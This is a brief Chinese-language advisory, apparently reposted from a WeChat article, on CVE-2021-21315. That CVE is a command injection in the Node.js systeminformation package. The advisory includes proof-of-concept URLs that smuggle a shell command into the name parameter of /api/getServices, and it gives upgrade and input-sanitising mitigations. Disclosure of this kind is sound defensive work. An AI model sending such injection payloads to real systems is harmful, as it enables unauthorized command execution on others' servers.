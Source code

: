 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/trm1F9oZlj4ceMsbsoboKw)

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV3ibbpIgdsiccJb6iaTI8IQvBA2q420nfWKulpvKmUBYexLpk5ich9zlQQH9h2dxY2KPONysLDicJB9YSg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

  

Node.js库中的systeminformation软件包中存在一个命令注入漏洞（CVE-2021-21315）攻击者可以通过「systeminformation」中代码注入漏洞的存在意味着攻击者可以通过在组件使用的未初始化参数内小心翼翼地注入有效载荷来执行系统命令。

  

POC:

  

```
`[PoC]``[Victim Site]/api/getServices?name=$(echo -e 'Sekurak' > pwn.txt)``[Victim Site]/api/getServices?name[]=$(echo -e 'Sekurak' > pwn.txt)`
```

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV3ibbpIgdsiccJb6iaTI8IQvBACYo0Eu0AbI3UbcRUFNvPPvtm4XhCkxqOZq8LmZtoOrEIQiaaaxrfMQQ/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV3ibbpIgdsiccJb6iaTI8IQvBAxQ9rFMSzj27lkDribervQPsP1UFtNYI56zsk5Qvzn3ASLibicExnwqp9Q/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

  

目前该漏洞已经修复，将systeminformation及时升级到5.3.1或更高版本。

  

https://www.npmjs.com/package/systeminformation

**缓解措施**

如果无法升级，可以检查或清理传递给si.inetLatency()、si.inetChecksite()、si.services()、si.processLoad()的参数，只允许使用string，拒绝任何数组。